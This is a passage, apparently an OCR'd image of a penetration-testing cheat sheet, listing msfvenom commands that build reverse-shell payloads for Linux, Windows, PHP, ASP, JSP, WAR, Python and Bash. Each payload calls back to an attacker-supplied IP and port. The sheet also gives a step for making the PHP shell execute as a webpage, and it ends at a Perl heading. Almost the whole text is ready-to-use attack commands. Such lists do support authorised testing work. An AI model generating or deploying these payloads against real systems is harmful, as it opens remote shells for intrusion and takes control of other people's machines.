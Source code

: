 ## MSFVENOM PAYLOAD

### Linux

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

### Windows

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

### PHP

```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php

Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### ASP

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

### JSP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

### WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### Python

```
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > shell.py
```

### Bash

```
msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > shell.sh
```

### Perl
